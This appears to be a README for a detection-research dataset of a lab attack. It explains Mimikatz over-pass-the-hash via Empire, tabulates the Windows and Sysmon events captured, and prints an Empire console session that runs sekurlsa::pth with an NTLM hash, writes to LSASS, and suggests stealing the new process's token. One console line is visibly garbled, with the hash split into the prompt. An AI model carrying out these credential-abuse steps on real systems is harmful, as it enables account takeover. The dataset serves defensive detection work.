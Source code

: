 
# Empire Mimikatz Over-Pass-The-Hash

When sekurlsa::pth is used to over-pass-the-hash, Mimikatz first creates a new logon type 9 process with dummy credentials - this creates a new "sacrificial" logon session that doesn't interact with the current logon session. It then opens the LSASS process with the ability to write to process memory, and the supplied hash/key is then patched into the appropriate section for the associated logon session (in this case, the "sacrificial" logon session that was started). This causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT. [Reference](https://github.com/GhostPack/Rubeus)

## Technique(s) ID

T1097

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_mimikatz_opth.tar.gz](./empire_mimikatz_opth.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19131123

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            2093 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| Security                                 | Filtering Platform Connection                          |             286 |
| Security                                 | Token Right Adjusted Events                            |              96 |
| Security                                 | User Account Management                                |              23 |
| Security                                 | Sensitive Privilege Use                                |              12 |
| Security                                 | Detailed File Share                                    |              10 |
| Security                                 | Group Membership                                       |              10 |
| Security                                 | Logon                                                  |              10 |
| Security                                 | Special Logon                                          |              10 |
| Security                                 | Logoff                                                 |               9 |
| Security                                 | Process Creation                                       |               6 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | Authorization Policy Change                            |               1 |
| Security                                 | File Share                                             |               1 |
| Security                                 | Kerberos Service Ticket Operations                     |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Security System Extension                              |               1 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             265 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             221 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |             137 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              85 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              26 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              16 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |              14 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              11 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               7 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |            2051 |

## Empire Activity

```
(Empire: 8BLV6USC) > usemodule credentials/mimikatz/pth*
(Empire: powershell/credentials/mimikatz/pth) > info

              Name: Invoke-Mimikatz PTH
            Module: powershell/credentials/mimikatz/pth
        NeedsAdmin: True
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  @JosephBialek
  @gentilkiwi

Description:
  Runs PowerSploit's Invoke-Mimikatz function to execute
  sekurlsa::pth to create a new process. with a specific
  user's hash. Use credentials/tokens to steal the token
  afterwards.

Comments:
  http://clymb3r.wordpress.com/ http://blog.gentilkiwi.com
  http://blog.cobaltstrike.com/2015/05/21/how-to-pass-the-
  hash-with-mimikatz/

Options:

  Name   Required    Value                     Description
  ----   --------    -------                   -----------
  CredID False                                 CredID from the store to use for ticket 
                                               creation.                               
  domain False                                 The fully qualified domain name.        
  ntlm   False                                 The NTLM hash to use.                   
  user   False                                 Username to impersonate.                
  Agent  True        8BLV6USC                  Agent to run module on.                 

4f81f8c89a2a384f4a68credentials/mimikatz/pth) > set ntlm b415baa073a1 
(Empire: powershell/credentials/mimikatz/pth) > set user Mmidge
(Empire: powershell/credentials/mimikatz/pth) > set domain shire.com
(Empire: powershell/credentials/mimikatz/pth) > execute
[*] Tasked 8BLV6USC to run TASK_CMD_JOB
[*] Agent 8BLV6USC tasked with task ID 3
[*] Tasked agent 8BLV6USC to run module powershell/credentials/mimikatz/pth
(Empire: powershell/credentials/mimikatz/pth) > Job started: 6DH2RP
Hostname: IT001.shire.com / S-1-5-21-2511471446-1103646877-3980648787

  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::pth /user:Mmidge /domain:shire.com /ntlm:b415baa073a14f81f8c89a2a384f4a68
user	: Mmidge
domain	: shire.com
program	: cmd.exe
impers.	: no
NTLM	: b415baa073a14f81f8c89a2a384f4a68
  |  PID  7920
  |  TID  8308
  |  LSA Process is now R/W
  |  LUID 0 ; 85924706 (00000000:051f1b62)
  \_ msv1_0   - data copy @ 000001BD859AEBA0 : OK !
  \_ kerberos - data copy @ 000001BD85999068
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001BD85902A78 (32) -> null


Use credentials/token to steal the token of the created PID.


(Empire: powershell/credentials/mimikatz/pth) >
```
